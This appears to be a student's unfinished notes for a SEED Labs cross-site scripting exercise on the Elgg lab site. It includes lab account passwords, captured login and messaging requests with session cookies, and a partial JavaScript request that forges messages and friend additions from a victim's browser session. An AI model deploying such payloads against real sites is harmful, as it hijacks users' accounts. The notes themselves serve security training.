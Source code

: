 # Writing Self-propagating XSS Worm

## Task 1
Using Account:

Username: Boby
Pass: seedboby

* Login Post data
```sh
curl 'http://www.xsslabelgg.com/action/login' -H 'Host: www.xsslabelgg.com' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Referer: http://www.xsslabelgg.com/' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Cookie: Elgg=cn6t026r72ceqv98uqk38cdci1' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' --data ''
```

* Send Samy Message post data
```sh
curl 'http://www.xsslabelgg.com/action/messages/send' -H 'Host: www.xsslabelgg.com' -H '(user-agent): mozilla/5.0 (x11; ubuntu; linux i686; rv:60.0) gecko/20100101 firefox/60.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Referer: http://www.xsslabelgg.com/messages/compose?send_to=47' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Cookie: Elgg=i0dbkkd1dcaf3qfmtn9gvmsae5' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' --data ''
```

```sh
//Create and send Ajax request to modify profile
var sendurl='http://www.xsslabelgg.com/action/messages/send'
var Ajax=null;
Ajax=new XMLHttpRequest();
Ajax.open("POST",sendurl,true)
Ajax.setRequestHeader("Host","www.xsslabelgg.com");
// Ajax.setRequestHeader("User-Agent","(user-agent): mozilla/5.0 (x11; ubuntu; linux i686; rv:60.0) gecko/20100101 firefox/60.0");
// Ajax.setRequestHeader("Accept","Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8");
// Ajax.setRequestHeader("Cookie",""); // Do not put because the victim has this in their own session
Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
Ajax.send(content);
```

### Goal
  * [ ] Send a message from victim’s profile to Samy with victim’s browser cookie.
  * [ ] Add Samy as a friend in the victims profile.

### Scripts


* [ ] Username: samy
* [ ] Pass: seedsamy

## Reference
http://www.xsslabelgg.com/

POST /action/login HTTP/1.1
Host: www.xsslabelgg.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.xsslabelgg.com/
Content-Type: application/x-www-form-urlencoded
Content-Length: 88
Cookie: Elgg=b8vmk86qa8cf7u7sjsm50lfnk4
Connection: keep-alive
Upgrade-Insecure-Requests: 1
